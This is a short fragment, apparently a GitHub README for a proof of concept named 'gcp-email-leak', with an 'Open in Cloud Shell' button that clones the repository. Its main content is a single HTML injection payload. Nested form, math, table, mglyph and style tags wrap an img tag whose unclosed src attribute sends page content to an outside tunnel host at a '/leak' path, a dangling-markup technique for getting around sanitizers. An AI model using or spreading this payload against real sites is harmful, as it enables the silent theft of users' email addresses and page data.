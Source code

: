 [![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?show=ide&cloudshell_git_repo=https://github.com/Nowasky/gcp-email-leak&open_in_editor=README.md)

<form><math><mtext><table><mglyph><style><img/src='https://rotten-fish-80.loca.lt/leak?</style><img/src>'>
